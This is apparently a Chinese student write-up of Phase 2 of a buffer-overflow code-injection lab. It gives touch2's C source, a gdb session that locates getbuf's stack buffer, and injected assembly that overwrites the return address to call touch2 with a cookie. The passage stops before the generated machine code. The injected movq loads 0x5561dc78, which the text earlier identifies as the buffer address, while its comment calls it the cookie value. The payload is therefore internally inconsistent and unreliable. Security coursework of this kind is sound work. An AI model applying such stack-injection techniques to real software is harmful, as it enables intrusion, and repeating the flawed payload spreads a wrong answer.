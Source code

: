 #### Level 2

Phase 2 需要注入少量的代码，函数 `touch2` 的 C 语言代码如下：

```c
void touch2(unsigned val)
{
    vlevel = 2;/* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

这一关的任务是让程序无法正常返回函数 `test`，并且成功以我们的 cookie（cookie.txt 文件中）为参数调用函数`touch2`。我们将代码嵌入到函数 `getbuf` 的缓冲区中，首先获取缓冲区的首地址，就是函数 `getbuf` 运行时，栈指针的位置：

```
(gdb) run -attack.l1.txt -q
...
Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) disas getbuf
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
(gdb) stepi
14      in buf.c
(gdb) print $rsp
$2 = (void *) 0x5561dc78
```

我们获得缓冲区首地址为：`0x5561dc78`，这个地址将覆盖函数 `getbuf` 的返回地址，使其返回这个缓冲区首地址，我们在该缓冲区中注入攻击代码，准备参数，并调用函数 `touch2`，攻击代码如下：

```
pushq $0x4017ec         # Address of function touch2
movq $0x5561dc78, %rdi  # Set parameter to our cookie value
retq                    # Transfer control to function touch2

```

代码解释：pushq 指令将函数 `touch2` 的首地址压入栈中（作为返回地址），结合 retq 指令，就可以将控制转移到 `touch2` 中，而 movq 指令的作用就是设置参数。

我们使用 gcc 生成机器代码，并用 objdump 反汇编，获取目标机器代码：

